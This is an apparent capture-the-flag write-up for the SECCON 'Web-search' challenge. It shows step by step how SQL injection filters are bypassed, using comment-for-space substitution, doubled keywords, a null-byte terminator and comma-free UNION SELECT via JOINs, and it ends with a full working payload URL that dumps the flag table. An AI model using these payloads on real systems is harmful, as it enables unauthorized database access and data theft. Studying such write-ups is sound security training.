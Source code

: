 ## SECCON Web-search Writeup


The challenge opens up with a search box and some content on the articles page. We can use some strings in the text box to search for the articles with that word/letter in it. 

### Recon:

 - First, check if it’s a sqli challenge.
 - Give a ‘(single quote)  -> throws an error. 
 - Given a “(double quote) - > no result.
 - Given a ) -> some results
 - I.e the keyword is enclosed within ‘ ‘ (single brackets). 

Checking for bypasses and formulating the payload:

The first thing to try for a sqli - ‘ or 1=1 -- -

### Results found : 
 - Spaces are stripped
 - Or is escaped
 - Comments did not work

Tried with some other payloads and found in addition to those these are also blocked.
- Pipe is replaced with nothing
- And is replaced with nothing
- % is replaced with nothing
- %0a also did not work
- Worst of all commas are also stripped

### Bypasses:
If space is blocked we can use /**/ or use brackets().

Or is escaped rather replaced with nothing so we can bypass it like this “oorr” only once "or" will be escaped leaving us with "or"
End the statement with ";" then %00 (null byte) to end the command there
No need of pipe since we can use "or"

### Payload:
              We know that it’s sqli - ‘/**/or/**/1=1;%00
Now we can get all the content from the current table. In that content we’ll get the first half of the flag and also a hint -> the next half is in the table flag

 So, we need to get the content from flag table. Cool , we can just do union select 1,2,3 … to find out no. of columns and then dump the database. But, the problem is we cannot use commas

So, we need to figure out a way to select the  same no. of columns on both sides of union. If you remember, the union selects or executes both the queries and the results are joined in the extra rows of the first table. So, if there’s a way to join two columns then we can join how many columns we want so that we can make it equal to the columns in the first command. That is possible and we just have to select what we want as a table and join them using join command
I have already tried select database() and got an error, that means the table has more than one column and also we need to get the data from flag table.
 Select * from table1 join table2 → general join tables syntax

Select * from (select 1) as a join (select 2) as b;
After encoding:
a’/**/union/**/select/**/*/**/from/**/(select/**/1)/**/as/**/a/**/join/**/(select/**/2)/**/as/**/b;%00

The above command select a table with two columns 1 and 2 with the content 1,2. All that now left is to find how many columns we need. From the above command’s result we’ll know that the table has more than 2 rows.Next try with 3 columns, then it’ll show the results. So, the table has/selects 3 columns. Now, time to dump the database.
We know that the table name is flag. We need to get the column name now.

Select * from (select * from (select group_concat(column_name) from information_schema.columns where table_schema=database()) as a join (select 2) as b) as c join (select 1) as d; 

This will dump all the columns of the tables in that database. For more clarity you can dump it table wise just change table_schema to table_name=’<table_name>’. Now just get the column piece from the flag table you’ll get the other half also.

### Final payload:
http://web-search.chal.seccon.jp/?q=%27/**/union/**/select/**/*/**/from/**/(select/**/*/**/from/**/(select/**/piece/**/from/**/flag)/**/as/**/a/**/join/**/(select/**/2)/**/as/**/b)/**/as/**/c/**/join/**/(select/**/1)/**/as/**/d;%00

